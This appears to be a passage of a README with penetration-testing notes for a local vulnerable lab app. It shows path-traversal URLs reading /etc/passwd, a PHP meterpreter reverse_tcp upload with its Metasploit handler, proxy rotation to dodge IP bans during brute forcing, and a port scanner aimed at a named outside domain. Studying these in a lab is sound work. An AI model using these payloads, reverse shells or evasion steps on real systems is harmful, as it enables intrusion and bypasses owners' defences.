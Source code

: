 ## Brute Force
You can use to Burp Suite to run the Brute Force attack. You can use the Burp Suite list or your custom list and past it into the **Intruder**. Select where the paramters to be changed are located, choose the attack type, upload the list in the Payload and run the attack!

## File inclusion
On the URL line type
```
http://localhost:88/vulnerabilities/fi/?page=../../../../../../etc/passwd
```
Or maybe (for higher level of security)
```
http://localhost:88/vulnerabilities/fi/?page=file:///etc/passwd
```
## File upload
You can build a php script and activate it by navigating to it. You can also mask it by changing the first line and the extension. To build the raw file, check the section on "maintaining access" (the basic command sequence is first to `use PAYLOAD payload/php/meterpreter/reverse_tcp` and then `generate` it ).
Then move to the URL of the file as specified in the output to activate it!
On **metasploit**:
```
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost 172.18.0.3
set lport 8444
run
```

# Appendix B: rotate proxies

Rotating proxies to avoid your IP to be banned during Brute Force attacks is a nice techniques.
In order to do so, you hav to redirect your traffic through different proxies every time.
In **python** you can simply do the following steps:

1. Recall that the `requests` module allow for setting the proxy like `requests.get('http://example.org', proxies=proxies)`.
2. Scrape the website  `https://free-proxy-list.net` automatically to find free proxies.
3. Loop over the proxies when sending requests.

Check out the python script in the folder `venom/rotateIP.py`.

### Observations:
1. In `python` you can host a server (a folder!) viao `python -m http.server`
2. In `python` you can host an ftp server with `pyftpdlib` and run it with `python -m pyftpdlib -p 21 w`

# Appendix C: port-scanner with python
Use sockets. Try to connect to a port and see if -- wthin a few seconds -- the socket connection results are erros or not.
The core of the code could be something like this:
```
import socket
target = socket.gethostbyname("giotto.ai")
for port in range(50,80):
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.settimeout(1)
    result = s.connect_ex((target,port))
    if result == 0:
        print("We have found an open port: " + str(port))
    s.close()
```
